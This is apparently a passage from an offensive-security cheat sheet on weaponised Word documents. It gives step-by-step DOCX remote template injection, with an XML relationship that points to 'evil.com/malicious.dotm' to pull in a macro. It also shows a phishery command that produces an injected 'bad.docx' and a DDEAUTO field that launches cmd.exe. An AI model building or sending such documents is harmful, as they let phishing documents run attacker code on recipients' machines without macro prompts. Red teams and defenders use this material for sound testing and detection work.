 
### DOCX - Template Injection

:warning: Does not require "Enable Macro"

#### Remote Template

1. A malicious macro is saved in a Word template .dotm file
2. Benign .docx file is created based on one of the default MS Word Document templates
3. Document from step 2 is saved as .docx
4. Document from step 3 is renamed to .zip
5. Document from step 4 gets unzipped
6. **.\word_rels\settings.xml.rels** contains a reference to the template file. That reference gets replaced with a reference to our malicious macro created in step 1. File can be hosted on a web server (http) or webdav (smb).
    ```xml
    <?xml version="1.0" encoding="UTF-8" standalone="yes"?>
    <Relationships xmlns="http://schemas.openxmlformats.org/package/2006/relationships"><Relationship Id="rId1" Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/attachedTemplate" Target="file:///C:\Users\mantvydas\AppData\Roaming\Microsoft\Templates\Polished%20resume,%20designed%20by%20MOO.dotx" TargetMode="External"/></Relationships>
    ```
    ```xml
    <?xml version="1.0" encoding="UTF-8" standalone="yes"?><Relationships xmlns="http://schemas.openxmlformats.org/package/2006/relationships"><Relationship Id="rId1" Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/attachedTemplate"
    Target="https://evil.com/malicious.dotm" TargetMode="External"/></Relationships>
    ```
7. File gets zipped back up again and renamed to .docx


#### Template Injections Tools

* https://github.com/JohnWoodman/remoteInjector
* https://github.com/ryhanson/phishery

```ps1
$ phishery -u https://secure.site.local/docs -i good.docx -o bad.docx
[+] Opening Word document: good.docx
[+] Setting Word document template to: https://secure.site.local/docs
[+] Saving injected Word document to: bad.docx
[*] Injected Word document has been saved!
```


### DOCX - DDE

* Insert > QuickPart > Field
* Right Click > Toggle Field Code
* `{ DDEAUTO c:\\windows\\system32\\cmd.exe "/k calc.exe" }`


## Visual Studio Tools for Office (VSTO)
